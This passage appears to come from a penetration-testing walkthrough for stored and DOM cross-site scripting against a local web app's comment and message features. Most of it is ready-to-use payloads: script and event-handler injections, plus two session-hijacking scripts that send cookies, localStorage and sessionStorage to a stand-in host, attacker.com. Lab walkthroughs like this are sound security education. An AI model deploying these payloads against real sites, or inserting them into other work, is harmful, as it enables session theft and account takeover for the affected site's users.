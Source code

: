 ### Phase 4: Stored XSS Testing

#### 4.1 Comment System Testing
Test persistent XSS through the comment system:

```html
<!-- Basic stored XSS -->
Name: <script>alert('Stored_XSS')</script>
Comment: This is a test comment

<!-- Event handler stored XSS -->
Name: TestUser
Comment: <img src=x onerror=alert('Stored_Comment_XSS')>

<!-- Advanced stored payload -->
Name: Admin
Comment: <svg onload=alert('Admin_Impersonation')>Click here for admin access</svg>
```

#### 4.2 Persistent Session Hijacking
Create payloads that steal session data:

```html
<!-- Cookie theft payload -->
<script>
document.location='http://attacker.com/steal.php?cookie='+document.cookie
</script>

<!-- Local storage theft -->
<script>
fetch('http://attacker.com/steal', {
  method: 'POST',
  body: JSON.stringify({
    cookies: document.cookie,
    localStorage: JSON.stringify(localStorage),
    sessionStorage: JSON.stringify(sessionStorage)
  })
});
</script>
```

### Phase 5: DOM XSS Testing

#### 5.1 Message Center Testing
Test DOM manipulation vulnerabilities at `/messages`:

```html
<!-- URL fragment XSS -->
http://localhost:5000/messages#msg=<img src=x onerror=alert('DOM_XSS')>&to=victim

<!-- JavaScript injection through form -->
Recipient: <script>alert('DOM_Recipient')</script>
Message: <img src=x onerror=alert('DOM_Message')>
```
